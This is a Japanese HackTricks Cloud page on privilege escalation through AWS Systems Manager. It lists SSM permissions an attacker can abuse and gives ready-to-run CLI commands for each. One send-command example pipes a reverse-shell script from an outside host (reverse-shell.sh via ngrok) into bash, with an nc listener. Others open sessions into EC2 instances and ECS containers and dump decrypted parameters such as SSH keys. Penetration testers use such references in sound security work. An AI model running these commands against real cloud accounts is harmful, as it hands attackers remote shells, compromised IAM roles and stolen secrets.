 # AWS - SSM Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## SSM

SSMに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`**の権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**コマンドを実行し**、その中で実行されている**IAMロールを侵害する**ことができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
```markdown
既に侵害されたEC2インスタンス内で特権を昇格させるためにこの技術を使用している場合、次のコマンドでローカルにrevシェルをキャプチャできます：
```
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin** をインストールする必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`を有効にして実行される**と、十分な権限を持つユーザーは `ecs execute-command` を使用して**コンテナ内でコマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは「_exec_」コマンドを開始するために使用するデバイスと、SSMセッションマネージャーを使用したターゲットコンテナとの間に安全なチャネルを作成することによって行われます。（これが機能するためにはSSMセッションマネージャープラグインが必要です）\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションが有効になっているECSタスク内で**シェルを取得**できるようになります。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的影響:** `ExecuteCommand`が有効な実行中のタスクに添付された`ECS`IAMロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**の権限を持つ攻撃者は、**切断された**SSMセッション状態のAmazon SSMエージェントが実行されているインスタンスでSSHのようなセッションを再**開始**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行中のインスタンスに接続されているEC2 IAMロールへの直接的な権限昇格。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

言及された権限を持つ攻撃者は、**SSMパラメータ**をリストし、**平文で読む**ことができるようになります。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に**見つかる**ことがあります。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、そこに**機密情報**が含まれていることを期待できます。
```
aws ssm list-commands
```
**潜在的な影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、生成された**出力を読み取る**ことができ、そこに**機密情報**が見つかることを期待します。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
